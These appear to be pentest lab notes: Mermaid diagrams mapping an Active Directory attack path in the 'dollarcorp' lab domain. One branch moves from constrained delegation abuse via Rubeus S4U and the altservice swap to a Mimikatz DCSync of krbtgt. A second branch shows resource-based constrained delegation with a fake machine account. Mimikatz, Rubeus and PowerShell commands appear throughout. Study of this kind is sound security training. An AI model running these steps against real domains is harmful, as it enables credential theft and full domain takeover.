


# dcorp-adminsrv$ — Machine Account Constrained Delegation → DCSync

## Attack Path

```mermaid
flowchart TD
    START(["🔑 Local Admin on dcorp-adminsrv\nAny privileged access"])

    subgraph cd_machine["Path: Machine Account Constrained Delegation"]
        M1["Enumerate machine accounts\nwith constrained delegation\nGet-ADComputer -Filter {msDS-AllowedToDelegateTo -ne '$null'}\nGet-DomainComputer -TrustedToAuth"]
        M2["Found: dcorp-adminsrv$\nAllowed to delegate to:\nTIME/dcorp-dc\nTIME/dcorp-dc.dollarcorp.moneycorp.local"]
        M3["Extract machine account hash\nInvoke-Mimikatz\nsekurlsa::logonpasswords\nlsadump::lsa /patch → machine account\nOR Rubeus dump /service:krbtgt"]
        M4["S4U2Self as dcorp-adminsrv$\nRubeus.exe asktgt\n/user:dcorp-adminsrv$\n/rc4:MACHINE_HASH\n/domain:dollarcorp.moneycorp.local"]
        M5["S4U2Proxy → TIME/dcorp-dc\nRubeus.exe s4u\n/ticket:TGT\n/impersonateuser:Administrator\n/msdsspn:TIME/dcorp-dc.dollarcorp.moneycorp.local\n/ptt"]
        M6["TIME service TGS obtained\nbut need LDAP for DCSync..."]
        M7["Altservice attack!\nRubeus.exe s4u ...\n/altservice:ldap\nModify service name in TGS\nTIME → LDAP (same machine)"]
        M8["✅ LDAP TGS for dcorp-dc\nas Administrator"]
        M9["DCSync via LDAP\nInvoke-Mimikatz\nlsadump::dcsync /user:dcorp\\krbtgt\n(using LDAP ticket)"]
        M10["✅ krbtgt hash extracted\nFull domain compromise"]
    end

    subgraph rbcd["Bonus: RBCD via ciadmin GenericWrite"]
        R1["ciadmin has GenericWrite\non dcorp-mgmt computer object"]
        R2["Create new machine account\nNew-MachineAccount -MachineAccount FakeComputer\n-Password password123"]
        R3["Set msDS-AllowedToActOnBehalfOfOtherIdentity\nSet-ADComputer dcorp-mgmt\n-PrincipalsAllowedToDelegateToAccount FakeComputer$"]
        R4["S4U from FakeComputer\nto dcorp-mgmt as Administrator\nRubeus s4u /user:FakeComputer$\n/impersonateuser:Administrator\n/msdsspn:cifs/dcorp-mgmt /ptt"]
        R5["✅ Admin access to dcorp-mgmt\nvia RBCD"]
    end

    START --> M1 --> M2 --> M3 --> M4 --> M5 --> M6 --> M7 --> M8 --> M9 --> M10
    START --> R1 --> R2 --> R3 --> R4 --> R5

    style START fill:#4CAF50,color:#fff
    style M8 fill:#FF9800,color:#fff
    style M10 fill:#f44336,color:#fff
    style R5 fill:#f44336,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((dcorp-adminsrv$ Machine Account))
    Constrained Delegation
      Enumerate
        Get-ADComputer -Filter msDS-AllowedToDelegateTo
        Get-DomainComputer -TrustedToAuth
      Configured for
        TIME/dcorp-dc
        Machine account not user
      Extract Machine Hash
        sekurlsa::logonpasswords
        lsadump::lsa /patch
        Rubeus dump /service:krbtgt
      S4U2Self
        Rubeus asktgt for machine$
        Use NTLM hash
      S4U2Proxy
        Impersonate Administrator
        Target TIME/dcorp-dc
    Altservice Attack
      Problem
        Have TIME TGS
        Need LDAP for DCSync
      Solution
        /altservice:ldap flag
        Rubeus modifies SPN
        Same machine different service
      Result
        LDAP TGS as DA
        DCSync enabled
    RBCD Attack
      ciadmin GenericWrite
        On dcorp-mgmt object
      Create fake machine
        New-MachineAccount
        Impacket addcomputer
      Set delegation
        msDS-AllowedToActOnBehalfOfOtherIdentity
      S4U attack
        FakeComputer$ → dcorp-mgmt
        As Administrator
```
